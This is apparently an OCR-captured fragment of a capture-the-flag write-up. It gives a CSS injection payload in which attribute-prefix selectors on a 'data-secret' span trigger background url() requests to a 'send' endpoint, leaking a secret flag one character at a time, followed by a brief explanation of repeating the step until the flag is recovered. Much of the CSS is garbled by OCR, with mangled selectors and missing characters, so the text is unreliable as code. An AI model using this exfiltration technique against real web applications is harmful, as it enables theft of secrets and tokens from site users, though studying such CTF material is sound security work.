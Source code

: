 ```css
(name = admin & msg = /secret 1; Path = /; domain = xx.web.ctfcompetition.com);} span [date -secret ^ = a] {background: url (send name=admin&msg=a);} span ^ - c] {background: url (send name = admin & msg = c);} span [data-secret ^ = d] {background: url e] {background: url (send name = admin & msg = e);} span [date-secret ^ = f] {background: url [data-secret ^ = h] {background: url (send? name = admin & msg = url (send-name = admin & msg = i);} span [data-secret ^ = j] {background: url (send? name = admin & msg = k);} {span-secret ^ = m] {background: url (send name = admin & msg = m);} span [data-secret ^ = n] {background: url (send? name = admin & msg = n);} span [date-secret ^ = q] {background: url (send? name = admin & msg = q);} span {background-secret ^ = s] {background: url (send name = admin & msg = s);} span t] {background: url (send? name = admin & msg = t);} span [data-secret ^ = u] {background: url {data-secret ^ = x} {background-url (send; name = admin & msg = : url (send? name = admin & msg = x);} {span-secret ^ = y} {span: url (send; name = admin & msg = y);} span [date-secret ^ = A] {background: url (send? name = admin & msg = A);} span -secret ^ = C] {background: url (send name = admin & msg = C);} span [date-secret ^ = D] {background: url ^ = E] {background: url (send name = admin & msg = E);} span [data-secret ^ = F] {background: url (send? G] {background: url (send name = admin & msg = G);} span [date-secret ^ = H] {background: url {data-secret ^ = K} {background-url} : url (send? name = admin & msg = K);} {span-secret ^ = L] {background: url (send? name = admin & msg = L);} span [data-secret ^ = N] {background: url (send? name = admin & msg = N);} span [date-secret ^ = Q] {background: url (send? name = admin & msg = Q);} span ^ - R] {background: url (send name = admin & msg = R);} span [data-secret ^ = S] {background: url (send? T] {background: url (send name = admin & msg = T);} span [data-secret ^ = U] {background: url {date-secret ^ = X] {background {url: send (name = admin & msg = : url (send? name = admin & msg = X);} {span-secret ^ = Y] {span: url (send? name = admin & msg = Y);} span [data-secret ^ = 0] {background-url (send name = admin & msg = 0);} span [date-secret ^ = 3] {background: url (send? name = admin & msg = 3);} span [date-secret ^ = 4] {background: url (send name = admin & msg = 4);} span [data-secret ^ = 5] {background-url ^ 6] {background: url (send name = admin & msg = 6);} span [date-secret ^ = 7] {background-url ^ {data-secret ^ = 9} {background-url = : url (send? name = admin & msg = _);{background-secret ^ = \ {] {background: url (send name = admin & msg = \ { ;} span [date-name = = xx
```

We can leak the first byte is `C`. To leak the next byte, just replace `^` with `^C`. If the first four byte is `CTF{`, the method of leaking the fifth byte is replace `^CTF{` to `^C`. We need to repeat this process until `}` is read.
